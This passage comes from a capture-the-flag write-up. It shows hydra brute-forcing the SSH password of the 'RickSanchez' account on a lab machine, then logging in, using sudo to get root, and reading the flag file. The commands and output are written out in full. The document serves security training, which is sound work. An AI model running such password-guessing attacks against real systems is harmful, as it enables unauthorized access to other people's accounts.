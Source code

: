 Now we can use the [hydra](https://www.kali.org/tools/hydra/) tool to try and brute force the `RickSanchez` account using the wordlists we just created.

First we will try spraying passwords using the `curtains.wordlist` file we created:

```bash {9}
┌──(mac㉿kali)-[~/Desktop]
└─$ hydra -l RickSanchez -P curtains.wordlist ssh://10.0.2.15 -s 22222
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-22 11:04:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 260 login tries (l:1/p:260), ~17 tries per task
[DATA] attacking ssh://10.0.2.15:22222/
[22222][ssh] host: 10.0.2.15   login: RickSanchez   password: P7Curtains
[STATUS] 260.00 tries/min, 260 tries in 00:01h, 1 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
```

And here we go! Hydra found that the password to the `RickSanchez` account is: `P7Curtains`.

Now lets login as RickSanchez via ssh using that password. And attempt to gain root access to this machine.

```bash {13}
┌──(mac㉿kali)-[~]
└─$ ssh RickSanchez@10.0.2.15 -p 22222
RickSanchez@10.0.2.15's password: 
Last login: Fri Aug 23 01:11:40 2024 from 10.0.2.4
[RickSanchez@localhost ~]$ cd ../../
[RickSanchez@localhost /]$ ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
[RickSanchez@localhost /]$ sudo -i
[sudo] password for RickSanchez: 
[root@localhost ~]# ls
FLAG.txt  anaconda-ks.cfg
[root@localhost ~]# more FLAG.txt 
FLAG: {Ionic Defibrillator} - 30 points
[root@localhost ~]#
```

:::note[30 points!]
:::

## Tools Used
- [netdiscover](https://www.kali.org/tools/netdiscover/)
- [nmap](https://www.kali.org/tools/nmap/)
- [nmapAutomator](https://github.com/21y4d/nmapAutomator)
- [netcat](https://www.kali.org/tools/netcat/)
- [nikto](https://www.kali.org/tools/nikto/)
- [crunch](https://www.kali.org/tools/crunch/)
- [hydra](https://www.kali.org/tools/hydra/)